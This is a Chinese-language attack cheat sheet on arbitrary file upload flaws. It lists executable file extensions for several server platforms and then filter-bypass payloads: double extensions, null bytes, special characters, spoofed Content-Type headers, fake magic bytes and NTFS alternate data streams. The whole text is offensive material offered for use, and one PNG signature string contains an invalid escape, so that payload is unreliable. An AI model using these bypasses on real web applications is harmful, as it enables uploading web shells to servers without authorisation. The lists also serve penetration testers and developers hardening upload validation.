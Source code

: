 # 任意文件上传漏洞

## 文件扩展名

### 常见扩展

php
```bash
.php
.php2
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
.shtml
.htaccess
.hphp
.ctp
.module
```

asp
```bash
.asp
.aspx
.config
.cer and .asa # (IIS <= 7.5)
.aspx;1.jpg # (IIS < 7.0)
.soap
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.vbhtm
.vbhtml
.shtml
```

jsp
```bash
.jsp
.jspx
.jsw
.jsv
.jspf
.wss
.do
.actions
```

perl
```bash
.pl
.pm
.cgi
.lib
```

Coldfusion
```bash
.cfm
.cfml
.cfc
.dbm
```

Node.js
```bash
.js
.json
.node
```

Flash
```bash
.swf
```

### 绕过文件扩展名检查

1.双扩展
```
.jpg.php
.png.ph5
```

2.反向双扩展
```
.php.jpg
.php.png
```

3.随机大小写
```
.PHp
.pHp5
.phAR
```

4.空字节
```
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

5.特殊字符
```
file.php%20
file.php%0d%0a.jpg
file.php%0a
name.%E2%80%AEphp.jpg
file.php/
file.php.\
file.j\sp
file.j/sp
file.jsp/././././.
file.

Only Windows:
file.php......
file.php....
file.pHp5....
```

6.Mime类型
```
Content-Type : image/gif
Content-Type : image/gif
Content-Type : image/png
Content-Type : image/jpeg
```

内容类型单词列表

[Content-Type](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/content-type.txt)

7.魔术字节

PNG
```
"\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["
```

JPG
```
"\xff\xd8\xff"
```

GIF
```
GIF87a
GIF8;
```

在 Windows 中使用 NTFS 备用数据流 (ADS)。在这种情况下，将在禁止的扩展名之后和允许的扩展名之前插入:。因此，将在服务器上创建一个带有禁止扩展名的空文件（例如"file.asax:.jpg"）。稍后可能会使用其他技术（例如使用其短文件名）编辑此文件。 "::$data"模式也可用于创建非空文件。因此，在此模式后添加一个点字符也可能有助于绕过进一步的限制（例如"file.asp::$data"）。

更多文件签名列表

[WikiPedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
